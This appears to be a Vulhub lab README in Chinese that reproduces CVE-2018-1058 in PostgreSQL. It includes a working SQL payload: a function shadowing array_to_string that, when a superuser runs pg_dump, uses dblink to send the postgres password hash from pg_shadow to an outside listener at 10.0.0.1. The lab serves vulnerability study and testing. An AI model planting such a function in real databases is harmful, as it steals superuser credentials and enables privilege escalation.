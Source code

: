 # PostgreSQL 提权漏洞（CVE-2018-1058）

PostgreSQL 是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

参考链接：

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## 漏洞环境

启动存在漏洞的环境：

```
docker compose up -d
```

环境启动后，将在本地开启PG默认的5432端口。

## 漏洞复现

参考上述链接中的第二种利用方式，我们先通过普通用户`vulhub:vulhub`的身份登录postgres: `psql --host your-ip --username vulhub`

![](1.png)

执行如下语句后退出：

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

然后我在`10.0.0.1`上监听5433端口，等待超级用户触发我们留下的这个“后门”。

（假装自己是超级用户）在靶场机器下，用超级用户的身份执行`pg_dump`命令：`docker compose exec postgres pg_dump -U postgres -f evil.bak vulhub`，导出vulhub这个数据库的内容。

执行上述命令的同时，“后门”已被触发，`10.0.0.1`机器上已收到敏感信息：

![](2.png)

上述过程仅是该漏洞的一种利用方法，涉及到机器比较多可能有点乱，建议读者阅读参考链接中的文章，获取更多利用方法。
